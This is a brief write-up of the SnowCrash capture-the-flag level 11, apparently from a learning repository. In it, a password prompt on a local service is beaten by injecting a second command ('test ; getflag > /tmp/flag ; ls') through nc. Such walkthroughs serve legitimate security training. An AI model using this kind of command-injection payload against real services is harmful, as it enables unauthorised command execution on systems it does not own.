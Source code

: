 # Snowcrash11

This time only a .lua file, a script

```sh
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

We have access to a lua script containing a hash, we can find it online :
https://sha1.gromweb.com/?hash=f05d1d066fb246efe0c6f7d095f909a7a0cf34a0

It doens't seem to help tho

We can see that the hash function uses echo with an argument that we can provide next, wonder if we can use getpass this way

```sh
level11:~$ nc 127.0.0.1 5151
Password: test ; getflag > /tmp/flag ; ls
Erf nope..
level11:~$ cat /tmp/flag
Check flag.Here is your token : REDACTED
```
Again, no need to go to flag account